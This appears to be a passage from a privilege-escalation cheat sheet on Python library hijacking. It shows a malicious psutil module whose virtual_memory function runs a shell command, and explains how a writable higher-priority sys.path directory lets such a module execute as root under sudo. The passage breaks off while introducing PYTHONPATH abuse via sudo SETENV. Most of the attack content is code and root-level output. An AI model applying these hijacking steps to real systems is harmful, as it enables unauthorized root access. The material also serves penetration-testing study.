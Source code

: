 ### Hijacked Module:
```python
def virtual_memory():
    import os
    os.system('id')  # Malicious code
    ...
```

### Execution:
```bash
sudo /usr/bin/python3 ./mem_status.py
# uid=0(root) gid=0(root) groups=0(root)
```

## 2️⃣ Library Path Precedence

### Python Module Search Order:
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

### Exploit Conditions:
- Target module is in a lower-priority path.
- Attacker can write to a higher-priority path.

### Example:
- `psutil` is in `/usr/local/lib/python3.8/dist-packages`
- `/usr/lib/python3.8` is writable and higher in priority.

### Malicious Module:
```python
# /usr/lib/python3.8/psutil.py
import os

def virtual_memory():
    os.system('id')
```

### Result:
```bash
sudo /usr/bin/python3 mem_status.py
# uid=0(root) gid=0(root) groups=0(root)
```

## 3️⃣ PYTHONPATH Environment Variable

### Description:
- PYTHONPATH defines directories Python searches for modules.
- If `sudo` allows `SETENV`, the user can override PYTHONPATH.
